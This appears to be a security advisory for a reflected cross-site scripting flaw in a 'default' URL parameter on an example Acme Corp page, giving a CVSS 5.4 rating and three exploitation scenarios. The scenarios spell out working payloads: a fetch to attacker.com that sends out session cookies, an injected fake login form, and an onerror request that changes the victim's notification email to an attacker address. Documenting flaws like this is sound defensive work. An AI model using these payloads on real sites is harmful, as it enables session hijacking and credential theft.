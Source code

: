# CVSS
**Score**: 5.4 \
**Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N \
**Severity**: Medium

The vulnerability is rated as Medium severity (5.4) based on the following analysis:

- **Network Attack Vector (AV:N)**: The vulnerability can be exploited remotely over the internet by sending crafted URLs to victims.

- **Low Attack Complexity (AC:L)**: Exploiting this vulnerability is straightforward and requires no special conditions - an attacker simply needs to create a URL with malicious content in the "default" parameter.

- **No Privileges Required (PR:N)**: No authentication or authorization is needed to exploit this vulnerability. Any user can craft and distribute malicious URLs.

- **User Interaction Required (UI:R)**: Exploitation requires a victim to click on a malicious link or otherwise visit a specially crafted URL.

- **Unchanged Scope (S:U)**: The vulnerability impacts only the vulnerable component (the web application) and doesn't allow compromising other components.

- **Low Confidentiality Impact (C:L)**: The vulnerability allows access to some restricted information, such as cookies and session data, but not all system data.

- **Low Integrity Impact (I:L)**: The attacker can modify some data on the client-side by injecting content, potentially tricking users or defacing the page.

- **No Availability Impact (A:N)**: The vulnerability doesn't directly impact the availability of the system.

While the impact of this vulnerability is constrained by requiring user interaction and having limited direct impact on confidentiality and integrity, it still poses a significant risk because it can lead to session hijacking and unauthorized actions.

# Exploitation Scenarios
**Scenario 1: Session Hijacking**
An attacker crafts a malicious URL: `http://www.acme-corp.com/page.html?default=<script>fetch('https://attacker.com/steal?cookie='+encodeURIComponent(document.cookie))</script>`. The attacker then distributes this URL via email, social media, or other channels. When a victim clicks the link, the injected script executes in their browser, sending their session cookies to the attacker's server. The attacker can then use these cookies to impersonate the victim and gain unauthorized access to their account.

**Scenario 2: Phishing Attack**
An attacker creates a URL with a payload that injects a fake login form: `http://www.acme-corp.com/page.html?default=<div class="login-overlay"><form>Username: <input><br>Password: <input type="password"><br><button onclick="sendCredentials()">Log in</button></form></div><script>function sendCredentials(){/*malicious code*/}</script>`. When the victim visits this URL, they see what appears to be a legitimate login prompt from Acme Corp. If they enter their credentials, the malicious script captures and sends them to the attacker.

**Scenario 3: Unauthorized Actions**
An attacker creates a URL with a payload that performs actions on behalf of the victim: `http://www.acme-corp.com/page.html?default=<img src="x" onerror="fetch('/api/user/settings', {method:'POST', credentials:'include', body:JSON.stringify({notifications:'attacker@evil.com'})});">`. When the victim visits this URL, the script silently changes their notification email to the attacker's address, potentially allowing the attacker to receive sensitive information or password reset links.

